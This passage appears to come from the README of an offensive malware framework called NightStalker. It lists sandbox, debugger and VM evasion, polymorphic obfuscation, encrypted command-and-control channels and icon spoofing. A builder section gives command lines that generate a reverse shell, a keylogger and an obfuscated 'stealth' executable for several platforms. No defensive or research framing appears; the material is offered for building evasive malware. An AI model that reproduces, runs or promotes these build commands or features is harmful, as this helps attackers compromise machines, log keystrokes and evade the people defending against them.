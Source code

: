 ```yaml
  backup_count: 5
```

## 🔒 Enhanced Security Features

### Anti-Detection
- **Sandbox Detection**: VM and sandbox environment detection
- **Debugger Detection**: Anti-debugging techniques
- **Process Monitoring**: Detection of analysis tools
- **Timing Analysis**: Sleep timing and execution delays
- **Advanced Anti-Analysis**: Sophisticated anti-analysis techniques

### Obfuscation
- **String Encryption**: Runtime string decryption
- **Code Obfuscation**: Advanced code obfuscation
- **Import Hiding**: Dynamic import loading
- **Anti-Analysis**: Anti-disassembly techniques
- **Polymorphic Code**: Polymorphic code generation

### Communication Security
- **Encrypted Channels**: All C2 communication encrypted
- **Certificate Pinning**: SSL certificate validation
- **Proxy Support**: SOCKS/HTTP proxy support
- **Custom Protocols**: Custom communication protocols
- **Stealth Communication**: Advanced stealth communication

## 🏗️ Enhanced Builder System

### Command Line Builder

```bash
# Build reverse shell
python builder.py --type reverse_shell --target 192.168.1.100:4444 --output shell.exe

# Build keylogger
python builder.py --type keylogger --config config/keylogger.yaml --output keylogger.exe

# Build with obfuscation
python builder.py --type reverse_shell --obfuscate --encrypt-strings --output stealth.exe

# Build for specific platform
python builder.py --type reverse_shell --platform linux --output shell

# Build through main framework
./nightstalker.sh payload build --type reverse_shell --format exe --obfuscate
```

### Builder Features
- **Multiple Output Formats**: EXE, ELF, Mach-O, Python, PowerShell
- **Obfuscation Options**: String encryption, code obfuscation
- **Icon Spoofing**: Custom icons and metadata
- **Anti-Analysis**: Anti-debugging and anti-VM features
- **Advanced Obfuscation**: Polymorphic and metamorphic techniques
